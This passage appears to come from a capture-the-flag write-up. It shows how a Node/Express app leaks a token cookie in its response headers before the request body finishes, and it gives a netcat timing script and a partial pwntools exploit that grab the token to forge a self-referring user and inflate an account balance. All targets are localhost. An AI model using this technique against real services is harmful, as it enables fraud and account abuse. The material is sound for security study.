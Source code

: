 2. Now send just the headers (not the full body) using this script:

```bash
#!/usr/bin/env bash

(
    echo -e "POST /test HTTP/1.1\r";
    echo -e "Host: localhost\r";
    echo -e "Content-Length: 999\r";
    sleep 5; # DO NOT send the final blank line that terminates headers, wait and see that server hangs
    echo -e "\r"; # you should see a response once this happens
) | nc localhost 3000
```

![route-handler-triggered](/images/2025-04-15-10-46-28.png)

See. The server doesn’t wait for the full body to call the route logic. That's because Express registers handlers early — and starts sending back a response early too.

Why does that matter?

Because in our vulnerable app, the response sets a cookie `(token=...)` before the request finishes. This will give us a small window to do what we want with the **token in the response header**.

## Exploitation

Armed with this newfound knowledge, we know exactly what we need to do: We need to register a user that self-refers himself and cashes out as many times as needed for his account balance to reach the target 100_000_000_000.

We exploit the fact that, in Node's HTTP module, the response headers are sent once the request headers are transmitted, but before the request body is fully processed (no "end" event triggered yet). This allows us to retrieve the token from the response and append it to the rest of the request, enabling the creation of our malicious user.

> the `name` field in the request is not necessary.

Alright, let's get to business. I'll be using [pwntools](https://docs.pwntools.com/en/stable/) to deliver the attack.

1. Create a TCP connection with the server and keep it alive so we can receive the response headers:

```python
from pwn import *

# Creates a TCP or UDP-connection to a remote host. It supports both IPv4 and IPv6.
connection = remote('localhost', 3000)

# Send an HTTP request without closing (server doesn't emit 'end' event)
connection.send(
    (
        b'POST /new HTTP/1.1\r\n'
        b'Host: localhost\r\n'
        b'Transfer-Encoding: chunked\r\n'
        b'Content-Type: application/x-www-form-urlencoded\r\n'
        b'\r\n'
    )
)
# Do simple string manipulation to extract the token from the response headers
token = connection.recv().decode().split('token=')[1].split('\r\n')[0]
```
